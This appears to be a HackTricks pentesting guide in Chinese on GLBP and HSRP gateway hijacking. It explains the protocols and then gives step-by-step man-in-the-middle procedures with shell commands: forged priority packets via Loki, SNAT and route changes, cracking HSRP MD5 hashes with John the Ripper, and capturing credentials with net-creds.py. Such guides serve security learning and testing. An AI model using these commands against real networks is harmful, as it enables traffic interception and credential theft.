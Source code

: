 # GLBP & HSRP 攻击

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想看到您的**公司在 HackTricks 中做广告**或**下载 PDF 版的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或**关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>


## FHRP 劫持概述

### FHRP 概览
FHRP 旨在通过将多个路由器合并为单个虚拟单元来提供网络鲁棒性，从而增强负载分配和容错能力。思科系统推出了该套件中的重要协议，如 GLBP 和 HSRP。

### GLBP 协议概述
思科的创造，GLBP，在 TCP/IP 协议栈上运行，利用 UDP 在端口 3222 上进行通信。GLBP 组中的路由器每隔 3 秒交换一次“hello”数据包。如果路由器在 10 秒内未发送这些数据包，则被视为离线。但是，这些计时器并非固定，可以进行修改。

### GLBP 操作和负载分配
GLBP 通过使用单个虚拟 IP 和多个虚拟 MAC 地址在路由器之间实现负载分配。在 GLBP 组中，每个路由器都参与数据包转发。与 HSRP/VRRP 不同，GLBP 通过几种机制提供真正的负载平衡：

- **主机相关负载平衡：** 为主机分配一致的 AVF MAC 地址，对于稳定的 NAT 配置至关重要。
- **轮询负载平衡：** 默认方法，在请求主机之间交替分配 AVF MAC 地址。
- **加权轮询负载平衡：** 根据预定义的“权重”指标分配负载。

### GLBP 中的关键组件和术语
- **AVG（活动虚拟网关）：** 负责为对等路由器分配 MAC 地址的主要路由器。
- **AVF（活动虚拟转发器）：** 指定管理网络流量的路由器。
- **GLBP 优先级：** 决定 AVG 的度量，从默认值 100 开始，范围在 1 到 255 之间。
- **GLBP 权重：** 反映路由器上的当前负载，可以手动调整或通过对象跟踪进行调整。
- **GLBP 虚拟 IP 地址：** 为所有连接设备提供网络的默认网关。

在交互方面，GLBP 使用保留的多播地址 224.0.0.102 和 UDP 端口 3222。路由器每隔 3 秒传输“hello”数据包，如果在 10 秒内错过一个数据包，则被视为非操作。

### GLBP 攻击机制
攻击者可以通过发送优先级值最高（255）的 GLBP 数据包成为主要路由器。这可能导致 DoS 或 MITM 攻击，允许拦截或重定向流量。

### 使用 Loki 执行 GLBP 攻击
[Loki](https://github.com/raizo62/loki_on_kali) 可以通过注入优先级和权重设置为 255 的数据包执行 GLBP 攻击。攻击前的步骤包括使用诸如 Wireshark 等工具收集虚拟 IP 地址、认证存在和路由器优先级值等信息。

攻击步骤：
1. 切换到混杂模式并启用 IP 转发。
2. 确定目标路由器并检索其 IP。
3. 生成一个 Gratuitous ARP。
4. 注入一个恶意的 GLBP 数据包，冒充 AVG。
5. 为攻击者的网络接口分配一个次要 IP 地址，镜像 GLBP 虚拟 IP。
6. 实施 SNAT 以完全可见流量。
7. 调整路由以确保通过原始 AVG 路由器继续访问互联网。

通过遵循这些步骤，攻击者将自己定位为“中间人”，能够拦截和分析网络流量，包括未加密或敏感数据。

以下是演示所需的命令片段：
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### HSRP劫持的被动解释与命令详细信息

#### HSRP（热备份路由器/冗余协议）概述
HSRP是思科专有协议，旨在实现网络网关冗余。它允许将多个物理路由器配置为单个逻辑单元，共享一个IP地址。这个逻辑单元由主路由器管理，负责流量导向。与GLBP不同，GLBP使用优先级和权重等指标进行负载平衡，HSRP依赖单个活动路由器进行流量管理。

#### HSRP中的角色和术语
- **HSRP活动路由器**：充当网关的设备，管理流量。
- **HSRP备用路由器**：备用路由器，准备在活动路由器故障时接管。
- **HSRP组**：一组路由器合作形成一个弹性的虚拟路由器。
- **HSRP MAC地址**：分配给HSRP设置中逻辑路由器的虚拟MAC地址。
- **HSRP虚拟IP地址**：HSRP组的虚拟IP地址，充当连接设备的默认网关。

#### HSRP版本
HSRP有两个版本，HSRPv1和HSRPv2，主要区别在于组容量、多播IP使用和虚拟MAC地址结构。该协议利用特定的多播IP地址进行服务信息交换，每3秒发送一次Hello数据包。如果在10秒内未收到数据包，则假定路由器处于非活动状态。

#### HSRP攻击机制
HSRP攻击涉及通过注入最大优先级值强制接管活动路由器的角色。这可能导致中间人攻击。攻击前的基本步骤包括收集有关HSRP设置的数据，可以使用Wireshark进行流量分析。

#### 绕过HSRP身份验证的步骤
1. 将包含HSRP数据的网络流量保存为.pcap文件。
```shell
tcpdump -w hsrp_traffic.pcap
```
2. 使用hsrp2john.py从.pcap文件中提取MD5哈希。
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. 使用John the Ripper破解MD5哈希。
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**使用Loki执行HSRP注入**

1. 启动Loki以识别HSRP广告。
2. 将网络接口设置为混杂模式并启用IP转发。
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. 使用Loki瞄准特定路由器，输入破解的HSRP密码，并执行必要的配置以冒充活动路由器。
4. 获得活动路由器角色后，配置您的网络接口和IP表以拦截合法流量。
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. 修改路由表以通过以前的活动路由器路由流量。
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. 使用net-creds.py或类似实用程序从拦截的流量中捕获凭据。
```shell
sudo python2 net-creds.py -i eth0
```

执行这些步骤将使攻击者能够拦截和操纵流量，类似于GLBP劫持的过程。这突显了像HSRP这样的冗余协议的漏洞以及对强大安全措施的需求。
